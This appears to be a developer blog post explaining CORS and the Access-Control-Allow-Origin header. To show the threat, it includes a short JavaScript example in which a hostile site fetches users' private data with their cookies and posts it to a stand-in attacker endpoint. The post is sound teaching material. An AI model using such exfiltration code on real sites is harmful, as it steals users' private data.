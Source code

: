 ```yaml
---
layout: blog
title: "CORS: Access-Control-Allow-Origin whut?!"
draft: false
date: 2023-11-21T17:45:00.000Z
date_updated: 2023-11-21T17:45:00.000Z
featured_image: /media/uploads/tanja-cotoaga-hvcXgf9rYKc-unsplash.jpg
page_bg: linear-gradient(to right,#c0a3c7,#3a60d3)
excerpt: CORS can seem like a super tricky and complex topic to wrap your head around, but in reality, it's not as hard as it appears.
---
```

## A Summary
CORS restrictions are a way of telling a user's browser that data should be protected from code running on a website, and asking the browser to place restrictions on that code to keep the data safe.

## Understanding the problem
*This section will explain the problem that CORS restrictions were invented to resolve. Feel free to skip this if you're happy that you understand why CORS is important.*

Imagine you have a website, let's call it `example.com`. You want to load some data from your API. How would you do it?

You might decide to do something like this.
```js
const data = await fetch('https://example.com/api/data');
```
This is great. Simple, and it works. Now let's imagine you add authentication. Let's say you implement some kind of API key. What would your fetch look like now?
```js
const myToken = '5Up3Rs3cr374PiK3Y';
const data = await fetch('https://example.com/api/data', {
  headers:  {
    Authorization: 'Bearer ' + myToken
  }
});
```
Cool. That works nicely. But then I decide to set up some more complex authentication and everyone has their own token. Maybe it's just easier to store that as a cookie? That's going to make it a lot easier, because now I can do this again:
```js
const data = await fetch('https://example.com/api/data');
```
My browser *automatically knows* to attach cookies from `example.com` to every request.

Great, so now I'm cooking with gas, I can fetch data from my API super easily.

But now I decide that for some reason I need to move my API to a different server, and that server is going to be hosted at `api.example`.

Now I can update my fetch to 
```js
const data = await fetch('https://api.example/api/data');
```
All good, users have to sign in again because the cookies from `example.com` don't get sent to `api.example`, but otherwise, everything is going smoothly.
Except wait, now someone has set up a site called `stolen-content.example`. I check their code, and they're just using my back-end for their own purposes!

*How to protect your users from credential theft will be the topic of another post in future, but for now, please just assume that your backend is configured properly to stop your users' authentication cookies leaking.*

But it gets worse, I find out that they're requesting data which is private for my users!:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
```
And my server is happily sending the data, because the user is sending a credentialled request!

Oh no, it's even worse than I thought... look at the next line:
```js
const data = await fetch('https://api.example/api/my_users_secret_data');
const json = await data.json();
fetch('https://stolen_content.example/save_secret_data', {
  method: POST,
  body: JSON.stringify(json)
});
```
They're  saving our users' data to their own database! How can we stop them?!

## CORS
Browser developers realised that the above problem is something that it's difficult for an application developer to stop. The browser is issuing a request with a legitimate cookie attached to it. How could the application know that it's being done with malicious intent? The real underlying problem here is that the end user, who is just trying to browse the internet is executing code on their browser that they don't understand, and that could be written by anyone.

So how do we protect users from the code that they're running? Enter CORS. Browser developers told application developers that they will implement some logic that application developers can rely on.  The application developer can tell the browser where they want to allow their requests to come from. This is the `Access-Control-Allow-Origin` header.

Here are some examples:
```
Access-Control-Allow-Origin: *
// This data can be requested by anyone
Access-Control-Allow-Origin: https://example.com
// This data should only be requested by people browsing https://example.com
```

Now, if a user is on `stolen-content.example` and their browser requests data from my API, then their request will fail with a CORS error, and the code to steal the users' secret data will fail.

*Note that all of this assumes that the user's browser properly respects the CORS header, and that we don't have to worry about the user using a compromised browser, and nor do we have to worry about the user trying to steal their own information. CORS only solves the problem of untrusted developers being allowed to run code on your computer through your browser, potentially with access to secret information.*

## Further reading
CORS actually has some other sensible protections (for example, you can't use `Access-Control-Allow-Origin: *` with a credentialled request, you can tell the browser not to share headers or not to allow specific methods, etc.). I'd recommend you start with [the MDN docs](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Access-Control-Allow-Origin).
